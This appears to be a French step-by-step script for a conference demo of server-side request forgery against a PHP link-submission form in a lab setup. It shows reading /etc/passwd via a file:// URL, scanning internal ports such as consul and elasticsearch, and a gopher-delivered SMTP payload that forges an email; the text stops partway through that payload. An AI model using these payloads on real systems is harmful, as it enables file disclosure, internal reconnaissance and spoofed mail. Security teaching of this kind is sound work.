 
## Etapes démo

### Démo initiale

1. Montrer la [liste des liens](http://demo-forum-php/links)
2. Accéder à la [page d'ajout de lien](http://demo-forum-php/links/add)
3. Ajouter un lien légitime. Par exemple https://www.journaldunet.com/web-tech/developpeur/1417308-geoffrey-bachelet-afup/
4. Voir le nouveau lien ajouté sur la liste des liens

### Premier lien incorrect

1. Depuis la [page d'ajout de lien](http://demo-forum-php/links/add)
2. Envoyer l'url http://trucbidulechouette.com
3. Montrer l'erreur. Le message curl est affiché uniquement pour les raisons de la démo.

A partir de cette étape on commence à forger des liens qui vont renvoyer
 des erreurs pour tester différents comportements.

### Voir les appels effectués à l'extérieur

1. Se connecter à la machine d'attaque: `cd ~/Workspace/demo-forum-php-attacker && vagrant ssh`
2. Faire défiler les logs apache: `sudo su - && tail -f /var/log/apache2/*.log`

### Lire des fichiers de la machine

1. Curl vers /etc/passwd: `file:///etc/passwd`
Voir dans le débug le dump du fichier

### Reconnaissance de services exposant du http

1. Curl vers le port apache http://127.0.0.1:80
2. Curl vers un port inconnu http://127.0.0.1:65356
3. Curl vers le port de consul http://127.0.0.1:8500
4. Curl vers le port elasticsearch http://127.0.0.1:9200

Bingo => on a du elasticsearch qui tourne, pas de consul.

### Exploitation de services Telnet
Gopher, concurrent de HTTP, plus utilisé mais toujours supporté par curl.

1. Envoi d'un mail

Version explicite du message: sendmail.txt

    HELO localhost
    MAIL FROM:<xavier@ccmbenchmark.com>
    RCPT TO:<xavier.leune@gmail.com>
    DATA
    From: [Hacker] <xavier@ccmbenchmark.com>
    To: <xavier.leune@gmail.com>
    Date: Tue, 15 Sep 2017 17:20:26 -0400
    Subject: Ah Ah AH
